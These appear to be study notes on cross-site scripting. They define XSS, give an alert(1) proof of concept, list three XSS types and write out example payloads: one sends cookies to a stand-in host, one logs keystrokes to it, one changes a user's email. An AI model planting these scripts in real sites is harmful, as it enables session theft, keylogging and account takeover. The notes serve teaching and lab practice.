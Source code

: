 

What is cross-site scripting, XSS?
> Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

XSS Proof Of Concept
> <script>alert(1);</script>

What are the types of XSS attacks?
- Reflected XSS
- Stored XSS, AKA second-order or persistent XSS
- DOM-based XSS

Cross-site Scripting Use-case
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>